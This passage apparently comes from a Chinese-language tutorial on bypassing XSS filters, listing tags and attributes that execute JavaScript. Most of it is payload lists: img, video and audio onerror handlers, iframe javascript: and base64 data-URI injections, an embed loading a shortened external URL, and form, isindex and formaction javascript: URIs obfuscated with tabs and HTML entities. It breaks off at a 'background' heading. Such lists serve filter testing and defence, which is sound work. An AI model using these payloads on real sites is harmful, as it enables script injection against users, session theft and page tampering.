 

**4.1.2 测试其他标签**

接下来我们尝试一下其他常用能生成有效javascript语法的标签和属性

**src属性：**  
接下来我们会测试src属性是否会被过滤，有很多html标签都可以使用src属性执行JavaScript代码

[code]

    <img src=x onerror=prompt(1);>
    <img/src=aaa.jpg onerror=prompt(1);>
    <video src=x onerror=prompt(1);> 
    <audio src=x onerror=prompt(1);>
[/code]

**iframe：**

[code]

    <iframesrc="javascript:alert(2)">
    <iframe/src="data:text&sol;html;&Tab;base64&NewLine;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
[/code]

**embed标签：**

[code]

    <embed/src=//goo.gl/nlX0P>
[/code]

**action属性:**

action是另外一个可以用于执行javascript脚本的属性，通常用于 <form、<isindex等元素中

[code]

    <form action="Javascript:alert(1)"><input type=submit>
    <isindex action="javascript:alert(1)" type=image>
    <isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
[/code]

**变种：**

[code]

    <formaction='data:text&sol;html,&lt;script&gt;alert(1)&lt/script&gt'><button>CLICK
[/code]

**formaction属性：**

[code]

    <isindexformaction="javascript:alert(1)" type=image>
    <input type="image" formaction=JaVaScript:alert(0)>
    <form><button formaction=javascript&colon;alert(1)>CLICKME
[/code]

**background属性：**

